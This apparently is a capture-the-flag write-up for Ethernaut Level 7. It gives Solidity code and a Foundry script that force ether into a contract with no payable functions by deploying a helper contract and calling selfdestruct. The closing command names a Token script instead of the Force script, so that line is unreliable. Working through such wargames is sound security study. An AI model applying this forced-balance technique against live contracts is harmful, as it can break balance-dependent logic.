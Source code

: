 # Ethernaut Level 7

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

It is an empty contract. Basically we need to somehow add balance to the contract address. Since there is no `receive()` and `fallback()` and any payable external ABI, we can't directly send transactions to increase the balance. What we will do instead is to create a new contract with some balances, self destruct it, and appoint the beneficiary to be this empty contract address. The balance will then go to the target.

`Destructible.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Destructable {
    address payable beneficiary;

    constructor(address payable _beneficiary) {
        beneficiary = _beneficiary;
    }

    receive() external payable {}

    function destruct() public {
        selfdestruct(beneficiary);
    }
}
```

In this contract, we use a payable address `beneficiary` to be the ultimate beneficiary of `selfdestruct()`. We also need a `receive()` function so that the contract is able to receive money and have a balance.

`Force.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {Force} from "../src/Force.sol";
import {Destructable} from "../src/Destructable.sol";

contract ForceScript is Script {
    Force force = Force(0xXXXXXXXXXXXX);

    function run() external {
        vm.startBroadcast();
        Destructable destructable = new Destructable(payable(address(force)));
        address(destructable).call{value: 1 wei}("");
        destructable.destruct();
        vm.stopBroadcast();
    }
}
```

In the script, we can just send a small amount of money to the `Destructable` contract and call the `destruct()` function to self destruct the contract.

Run the command:

```bash
forge script script/Token.s.sol:TokenScript --rpc-url $SEPOLIA_RPC_URL$ --account default --broadcast
```

